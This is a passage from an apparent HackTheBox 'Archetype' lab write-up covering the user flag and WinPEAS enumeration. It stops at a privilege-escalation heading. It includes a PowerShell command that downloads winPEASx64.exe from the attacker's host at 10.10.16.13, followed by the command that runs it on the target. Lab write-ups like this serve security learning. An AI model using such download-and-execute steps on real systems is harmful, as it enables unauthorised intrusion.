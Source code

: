 # <u>User flag</u>

![14](/assets/images/htb/archetype/14.png)

# <u>WinPEAS</u>

- Upload the winpeas binary into the machine
- I'm gonna use `powershell` to know this machine `architecture`
  - by using this command:
    - `(wmic os get OSArchitecture)[2]`

![13](/assets/images/htb/archetype/13.png)

- This machine is 64-bit. I'm gonna upload `WinPEAS 64-bit version` to work.

- I'm gonna `copy` and `paste` the `WinPEAS` binary into my `www` folder.
- Let's upload it by using this command:
    - `IWR http://10.10.16.13:8000/winPEASx64.exe -OutFile winpeas.exe`

![15](/assets/images/htb/archetype/15.png)

- Then run it by using this command `.\winpeas.exe`

# <u>3:Privilege Escalation</u>

# <u>UsoSvc</u>
